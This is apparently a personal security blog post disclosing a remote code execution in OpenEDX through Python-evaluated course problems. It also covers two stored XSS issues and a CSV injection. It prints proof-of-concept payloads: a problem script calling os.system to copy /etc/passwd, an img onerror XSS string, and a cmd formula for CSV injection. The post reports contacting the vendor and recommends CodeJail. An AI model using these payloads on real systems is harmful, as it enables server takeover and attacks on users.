 ```yaml
---
layout: post
title: How I found a Remote Code Execution in OpenEDX
---
```


**How I found a Remote Code Execution in OpenEDX**

![alt text](https://media-exp1.licdn.com/dms/image/C4D0BAQEImBWi8mCV9w/company-logo_200_200/0?e=1597881600&v=beta&t=3TJtPgE49E8s9Ox3X3h15mgb4Ls8vjX9_VL5DX9HkqY "Logo Title Text 1")

OpenEDX platform is really cool Learning Management System, which is also Open source (this time I was testing the Ironwood release 2.5). You can check it out here: <https://open.edx.org/the-platform/> When I was using it, I decided to check for their security. So I followed my normal approach: first mapping the app, writing down which functionalities it had, blackbox testing, and then whitebox.

As you can see here: <https://github.com/edx/edx-platform> the whole platform is written in Python (in which I don’t have many experience reviewing code). So I decided to go completely blackbox this time. As I really needed to know all the functionalities in depth, I went to the official documentation:

**https://edx.readthedocs.io/projects/open-edx-building-and-running-a-course/en/latest/index.html**

![alt text](https://pic.accessify.com/thumbnails/777x423/d/docs.edx.org.png "test")

So after some time digging in the docs I found this:
![](/python.png)

So it turns out that if you create an account in the OpenEDX platform instance and go to the Studio, create a Course, Create a Unit in the course and add a Problem. And if you choose Custom Python-Evaluated problem and use a payload such as:
~~~~
<problem>

<script type="python">
def test_add(expect,ans):
    os.system("cat /etc/passwd > /tmp/test_rce")
    
</script>

<p>Problem text</p>
<customresponse cfn="test_add" expect="20">
        <textline size="10" correct_answer="11" label="Integer #1"/><br/>
        <textline size="10" correct_answer="9" label="Integer #2"/>
</customresponse>

    <solution>
        <div class="detailed-solution">
          <p>Solution or Explanation Heading</p>
          <p>Solution or explanation text</p>
        </div>
    </solution>
</problem>
~~~~

And click the Submit button, you can execute code in the machine.


![](/openedx-rce.gif)

So when I discovered this, I contacted EDX’s security team and they told me that there is a mitigation for this kind of issues, but it is not enabled by default:

**https://github.com/edx/codejail**

Apart from this vulnerability I also found a stored XSS. In EDX STUDIO&gt;CONTENT&gt; FILE UPLOADS&gt; Upload an SVG XSS file. And also 2 more XSS:

1) EDX STUDIO&gt;COURSENAME&gt;CONTENT&gt; UPDATES &gt; Press the edit button and replace the default thing with &lt;img src=x onerror=alert(0)&gt;

2) Finally in EDX STUDIO&gt;COURSENAME&gt;SETTINGS&gt;

Finally I found a CSV injection as well:

Course &gt;Instructor&gt;Cohorts&gt;Add cohort with the payload (ex: =cmd|' /C notepad'!'A1')&gt;Add your user to the cohort
Course&gt;Data Downloads&gt;Reports&gt;Download profile info as CSV&gt;The file is generated below, open in Excel 2016, Data&gt;Import data from file&gt;Choose CSV&gt;Using comma as delimiter.

So, that was all for today. Please make sure you enable CodeJail while using OpenEDX platform. Thanks for reading the post ;)
